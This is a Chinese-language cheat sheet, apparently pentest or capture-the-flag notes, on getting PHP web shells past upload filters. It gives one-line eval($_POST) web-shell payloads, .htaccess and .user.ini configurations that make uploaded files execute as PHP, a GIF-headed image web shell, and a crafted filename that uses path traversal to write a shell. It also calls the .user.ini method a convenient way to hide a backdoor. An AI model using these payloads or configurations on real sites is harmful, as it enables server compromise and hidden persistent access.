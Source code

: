 ```

## payload

```
<?php eval($_POST['cmd']);?>
<?= eval($_POST[1]);?>
<script language="php">eval($_POST[1]);</script>
```

## .htaccess

```
<FilesMatch "shell" >
SetHandler application/x-httpd-php
</FilesMatch>
```

将当前目录下文件名为shell的文件当成php来解析

```
AddType application/x-httpd-php .mochu
```

将别的后缀名文件内容解析为php程序

## .user.[ini文件](https://so.csdn.net/so/search?q=ini文件&spm=1001.2101.3001.7020)

具体参考[.user.ini文件构成的PHP后门 - phith0n (wooyun.js.org)](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)

在 `.user.ini` 风格的 INI 文件中只有具有 PHP_INI_PERDIR 和 PHP_INI_USER 模式的 INI 设置可被识别。

而且，和`php.ini`不同的是，`.user.ini`是一个能被动态加载的ini文件。也就是说我修改了`.user.ini`后，不需要重启服务器中间件，只需要等待`user_ini.cache_ttl`所设置的时间（默认为300秒），即可被重新加载。

在哪些情况下可以用到这个姿势？ 比如，某网站限制不允许上传.php文件，你便可以上传一个.user.ini，再上传一个图片马，包含起来进行getshell。不过前提是含有.user.ini的文件夹下需要有正常的php文件，否则也不能包含了。 再比如，你只是想隐藏个后门，这个方式是最方便的。

.user.ini

```
auto_prepend_file=shell.jpg
```

shell.jpg

```
GIF89a
<?php eval($_P0ST['a']); ?>
```



## 后缀

利用了一个Linux的目录结构特性 , 请看下面代码：

![20190907181102.png](https://raw.githubusercontent.com/handbye/images/master/20190907181102.png)

这里访问 `./1.php/2.php/..` 代表访问 `2.php`的父目录 , 也就是访问 `1.php` 。

因此这里构造数据包时 , 可以构造如下POST数据

```
con=<?php @eval($_POST[cmd]);?>&file=test.php/1.php/..